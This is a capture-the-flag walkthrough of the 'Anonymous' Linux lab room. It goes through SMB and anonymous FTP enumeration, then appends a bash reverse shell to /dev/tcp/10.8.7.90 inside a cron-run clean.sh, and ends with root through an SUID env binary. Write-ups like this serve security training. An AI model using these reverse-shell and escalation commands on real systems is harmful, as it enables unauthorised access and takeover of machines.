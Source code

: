 ## Anonymous - Walk-through

### Welcome to the walk-through of the Anonymous room:


<br>
note:

if this walk-through has any typos or problems I am sorry in advance and I welcome any suggestions to improve the next walk-through.<br>
hope you enjoy it.

room description:<br>
According to the room description, this is Linux based machine built to "prove your understanding of the fundamentals".
so lets begin working on it!

 first things first , simple enumeration with Nmap:<br>
`nmap -A -sV 10.10.162.188 -oN nmap_report.txt`

![](images/nmap_ports.jpg)

as we can see we have open ports. let's start enumerate SMB protocol, I use enum4linux for enumeration.
<br>
`enum4linux -a 10.10.162.188`


![](images/enum4linux_shares.jpg)

we have list of share-names on the user's computer.
pics share directory is our interest.
so let's connect to it:<br>
`smbclient //10.10.162.188/pics -U user`

![](images/smbclient_get.jpg)

now after listing files in the pics directory, we can see we have two pictures. let's check these pictures by downloading them with `get` command.

lets see the pics!

![](images/cute_dogs.jpg)

little cuties with hidden but useless data.
this is the tricky part! after spending sometime for it and using different steganography tools like ExifTool, binwalk & Steghide I could not get any useful data so I turned to FTP protocol instead.

![](images/ftp-anon-allowed.jpg)

in nmap report we can see we have ftp-anon, with it we can log in with anonymous user and no password, let's try it:

![](images/ftp-login.jpg)

checking the script directory, we know that we have interesting files!

![](images/ftp-list.jpg)

clean.sh has very good permissions for us!

first, let us download and check each file hoping to get any good info.

clean.sh

![](images/cleansh.jpg)

removed_files.log

![](images/rem-log.jpg)

we can guess clean.sh file is run with crontab.

to_do.txt

![](images/todo.jpg)
well it's too late now!

we must find some way to append or edit clean.sh file we can not do it with FTP command so we use
`curlftpfs` , this tool mounts an FTP host as a local directory so then we can  edit clean.sh .

let's make directory for hosting FTP:<br>
`mkdir -p ~/mnt/ftpfs`

mount it to out machine:<br>
`curlftpfs anonymous@10.10.162.188 ~/mnt/ftpfs`

`cd` to it:<br>
`cd ~/mnt/ftpfs/`

now we can edit clean.sh<br>
`nano clean.sh`

we can append a little reverse shell in it:
I often use https://www.revshells.com/,
so let's make a one-line reverse shell.<br>
`bash -i >& /dev/tcp/10.8.7.90/8888 0>&1`


save clean.sh ,next we must run a listener:<br>
`nc -lvp 8888`

wait till crontab run clean.sh script or we can just run it:<br>
`./clean.sh`

we may see errors when we run it but nonetheless, we have our reverse shell start to run.

![](images/run-cleansh.jpg)

![](images/access.jpg)


voila!  we have access to "tonamelessone" user.

checking what this user has in his directory we found our user flag.

![](images/namelessonone.jpg)

now let's escalate our privilege, I wrote a little note about Linux privilege escalation:<br>
 https://github.com/WhiteOwl-Pub/Linux_privEsc_Notes
<br>it has good tips on it. check it out!

after some time, toying with different commands I check suid permissions:

`find / -type f -perm -04000 -ls 2>/dev/null`

checking the list with my fav site:
https://gtfobins.github.io/#+suid for privilege escalation:

find out we can use env to privilege escalation to root!

![](images/env-suid.jpg)

now we cd to /usr/bin/env:<br>
`cd /usr/bin/env`

and run:<br>
`./env /bin/sh -p`

![](images/root-access.jpg)

if you want you can run this command to stabilize shell:

`python -c 'import pty; pty.spawn("/bin/bash")'`


for finding root flag first, we check root home directory. the alternative way is using find command since we have the file name.
know that we can use find command if we have a portion of the file name too.

![](images/find-rootflag.jpg)

![](images/root-flag.png)


well done we found the final flag.

hope you enjoy it!
